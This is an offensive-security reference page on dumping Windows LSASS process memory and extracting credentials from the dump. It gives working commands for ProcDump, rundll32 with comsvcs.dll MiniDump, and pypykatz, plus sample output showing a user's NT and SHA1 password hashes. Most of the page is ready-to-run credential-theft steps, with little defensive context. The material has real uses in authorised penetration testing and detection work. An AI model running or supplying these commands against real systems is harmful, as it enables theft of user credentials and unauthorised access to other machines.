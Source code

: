 # Windows LSASS

LSASS (Local Security Authority Subsystem Service) in Windows is a process responsible for enforcing security policies, managing user authentication, and auditing system events.

## Dumping LSASS Memory

LSASS memory dumps can pose serious security risks as they may contain sensitive information. This can include plaintext passwords, hash values, and other authentication details used in the system.

### Task Manager

The easiest way to dump LSASS memory is to use Task Manager. You'll need UI access to the machine to do this.

1. Open Task Manager
2. Find the `Local Security Authority Process`
3. Right-click on the process and select `Create dump file`

![Task Manager](taskmanagerdump.png)

### ProcDump

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a command-line utility that can be used to create memory dumps of processes.

:::caution ProcDump

You'll need to download ProcDump on the target machine to use it.

:::

```batch title="Using ProcDump to Dump LSASS Memory"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

You can also avoid reading the `lsass.exe` process by dumping a cloned process instead.

```batch title="Using ProcDump to Dump LSASS Memory (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

### comsvcs.dll

```batch title="Using comsvcs.dll to Dump LSASS Memory"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

You can also use the PowerShell variant of this command.

```powershell title="Using comsvcs.dll to Dump LSASS Memory (PowerShell)"
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## Extracting Credentials

### Pypykatz

This is the Linux version of [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
pypykatz lsa minidump <lsass dump file>
```

```bash title="Pypykatz Example"
pypykatz lsa minidump lsass.dmp

...SNIP...
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
...SNIP...
```